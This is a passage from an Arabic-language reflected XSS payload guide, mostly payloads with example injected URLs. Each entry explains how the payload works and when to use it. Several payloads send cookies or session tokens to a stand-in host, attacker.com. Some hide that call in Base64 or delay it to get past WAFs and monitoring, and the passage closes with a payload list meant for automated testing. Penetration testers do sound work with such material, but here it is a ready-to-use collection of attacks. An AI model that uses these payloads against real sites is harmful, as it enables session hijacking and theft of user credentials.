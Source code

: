   - **الإدخال**: `https://example.com/search?q=" onmouseover="new Image().src='http://attacker.com/log?s='+localStorage.getItem('token')`
  - **كيف يعمل**: يرسل رمز الجلسة عند تمرير المؤشر.
  - **متى يُستخدم؟**: لاستهداف سمات التفاعل.

#### هـ. حقن مع التعتيم
{ #XSS_Obfuscation_payloads /  #XSS_ecoded_payload }
استخدام تقنيات التعتيم لتجنب الكشف.
- **الحقن**: `<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **الإدخال**: `https://example.com/search?q=<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>`
  - **كيف يعمل**: يفك تشفير Base64 لتنفيذ تنبيه.
  - **متى يُستخدم؟**: لتجاوز فلاتر WAF.
- **الحقن**: `<img src=x onload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">`
  - **الإدخال**: `https://example.com/search?q=<img src=x onload="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
  - **متى يُستخدم؟**: لتجنب أنظمة الكشف.
- **الحقن**: `<script>alert(String.fromCharCode(88,83,83))</script>`
  - **الإدخال**: `https://example.com/search?q=<script>alert(String.fromCharCode(88,83,83))</script>`
  - **كيف يعمل**: ينشئ تنبيهًا باستخدام رموز ASCII.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر النصوص المباشرة.
- **الحقن**: `<img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)">`
  - **الإدخال**: `https://example.com/search?q=<img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)">`
  - **كيف يعمل**: يؤخر إرسال البيانات لتجنب الكشف.
  - **متى يُستخدم؟**: لتجنب أنظمة المراقبة الفورية.
- **الحقن**: `<script>document['location']='http://attacker.com'</script>`
  - **الإدخال**: `https://example.com/search?q=<script>document['location']='http://attacker.com'</script>`
  - **كيف يعمل**: يستخدم صيغة غير قياسية لإعادة التوجيه.
  - **متى يُستخدم؟**: لتجنب فلاتر البحث عن الكلمات.

### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests` أو `selenium`) لأتمتة اختبار مجموعة من الحقن المستخدمة في XSS المنعكس وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تستهدف سياقات HTML، سمات، وJavaScript.
  - مثال قائمة:
    ```
    <script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>
    <img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">
    <a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>
    ";fetch('http://attacker.com/log?c='+document.cookie);//
    <script>eval(atob('YWxlcnQoJ1hTUycp'))</script>
    ```
- **كيف يعمل**:
  - يتم إرسال الحقن عبر نقاط إدخال (مثل معلمات URL أو حقول نماذج).
  - يتم مراقبة الخادم الخارجي أو المتصفح لتأكيد التنفيذ.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.
